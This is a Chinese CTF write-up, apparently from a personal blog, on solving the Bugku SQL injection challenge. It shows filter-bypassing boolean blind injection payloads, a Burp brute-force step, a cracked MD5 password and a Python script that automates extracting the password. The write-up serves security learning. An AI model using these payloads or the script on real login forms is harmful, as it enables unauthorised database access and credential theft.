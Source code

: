 ```yaml
---
author: "Yiming Shen"
date: 2021-10-24
lastmod: 2021-11-6
title: "Bugku-SQL注入-WriteUP"
tags: [
    "CTF",
    "WriteUP",
    "Web",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
math: true
typora-root-url: ..\..\static\
---
```




题目网址：[sql注入](https://ctf.bugku.com/challenges/detail/id/112.html?page=1)

![image-20211014221914790](/4.Bugku-SQL注入.assets/image-20211014221914790.png)

一个很正经的界面，有实战那味了。

![image-20211014222010532](/4.Bugku-SQL注入.assets/image-20211014222010532.png)

上来先尝试经典组合：

`admin~password`

很幸运，用户名猜中了。

利用单引号检测是否存在SQL注入

`admin' or 1 = 1`

![image-20211014222135986](/4.Bugku-SQL注入.assets/image-20211014222135986.png)

报非法字符，说明存在字符过滤，我们找一下未被过滤的可用字符：

```
'
or
<>(不等号)
#
()
```

空格可用括号代替，等号可用相反的不等号

先尝试是否存在布尔注入：

![image-20211014222551824](/4.Bugku-SQL注入.assets/image-20211014222551824.png)

成功，用户名存在注入~

之后就是利用有错误反馈的布尔盲注语句进行爆密码（因为已知用户名）

```mysql
select password from admin
```

因为屏蔽了逗号，所以`left、substr、if`函数基本无法使用，我们用`ascii`和`mid`函数构造payload

```mysql
1'or((ascii(mid((select(password)from(admin))from(1))))<>9)or(1)#
```

使用burp爆破，从1开始挨个尝试，结果是以md5的形式存储在库中的，手动爆破很困难

![image-20211014225952174](4.Bugku-SQL注入.assets/image-20211014225952174.png)

![image-20211014225933951](/4.Bugku-SQL注入.assets/image-20211014225933951.png)

我们尝试下集束炸弹，让两个参数都作为目标

第一组payload为0-9的两位数组合，第二组payload为a-z和0-9的ASCII码

![image-20211014230625824](/4.Bugku-SQL注入.assets/image-20211014230625824.png)

爆破成功了。。。

接下来就是把各组数据记下来，转换成字母和数字，得到了一串md5密码：

`4dcc88f8f1bc05e7c2ad1a60288481a2`

去md5破解站破解一下，成功解出密码：

`bugkuctf`

![image-20211014230833058](/4.Bugku-SQL注入.assets/image-20211014230833058.png)

结束了……

## 反思

自动化程度不够高，学的python要用上，不要有脚本小子思想。

贴一组大神的python自动脚本，以供学习

```python
#布尔盲注不仅仅是在密码正确和密码错误两种情况下，比如你输入账户，可能出现“账户不存在”和“存在”两种情况，这也是布尔。
import requests
import string,hashlib
url = 'http://114.67.246.176:19665/'
sss = string.digits + (string.ascii_lowercase)
a = ''
for i in range(1, 50):
    flag = 0
    for j in sss:
        payload = "admin'^((ascii(mid((select(password)from(admin))from(%s))))<>%s)^1#" % (i, ord(j))
        #屏蔽了","，改用mid()函数，from表示起始位置
        #ascii()当传入一个字符串时取出第一个字母的ascii()，相当于mid()的第二参数，for取出，也相当于limit
        #<>表示不等号
        #^表示异或
        payload2= "admin123'or((ascii(mid((select(password)from(admin))from(%s))))<>%s)#"%(i,ord(j))
        #由于没有屏蔽or，所以也可以用这个，可以形成一组布尔
        payload3= "admin123'or((ascii(mid((select(database()))from(%s))))<>%s)#"%(i,ord(j))
        
        data = {'username': payload, 'password': 'admin'}
        res = requests.post(url, data=data).text
        if 'username does not exist!' in res:
            a += j
            flag = 1
            print(a)
            break
    if flag == 0:
        break
 
print(a)
```



## 参考题解

[1] [Bugku_sqli write up](https://blog.csdn.net/bin789456/article/details/119851596)
